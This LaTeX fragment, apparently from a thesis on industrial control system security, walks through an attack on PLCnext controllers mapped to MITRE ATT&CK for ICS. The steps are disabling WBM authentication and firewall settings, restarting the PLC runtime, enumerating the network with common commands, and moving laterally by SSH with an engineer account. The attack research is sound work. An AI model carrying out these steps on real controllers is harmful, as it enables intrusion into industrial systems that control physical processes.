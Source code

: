 \documentclass[Master,BMR,english]{twbook}
\begin{document}
\begin{listing}[htbp]
\begin{verbatim}
# Log in to WBM and disable authentication:
Change firewall settings and disable authentication in the WBM.

# Change operating mode by restarting the PLCnext Application in the 
# PLC1 command line:
sudo /etc/init.d/plcnext stop
sudo /etc/init.d/plcnext start
\end{verbatim}
\caption{Exploit for Evasion}
\end{listing}

\section*{Discovery}

\textbf{Network Connection Enumeration (T0840) and Network Sniffing (T0842):} The attacker enumerates network connections and sniffs the eth0 network on PLC1. 

\begin{listing}[htbp]
\begin{verbatim}
# Enumerate network connections:
ifconfig
arp
nft list ruleset
netstat -tuln

\end{verbatim}
\caption{Network Connection Enumeration and Network Sniffing}
\end{listing}

\section*{Lateral Movement}

\textbf{Valid Accounts (T0859):} Moving to the PLC2 via SSH using valid creditentials of the user engineer. 

\begin{listing}[htbp]
\begin{verbatim}
# SSH from PLC1 to PLC2:
ssh engineer@192.168.137.12
\end{verbatim}
\caption{Valid Accounts for Lateral Movement}
\end{listing}
\end{document}
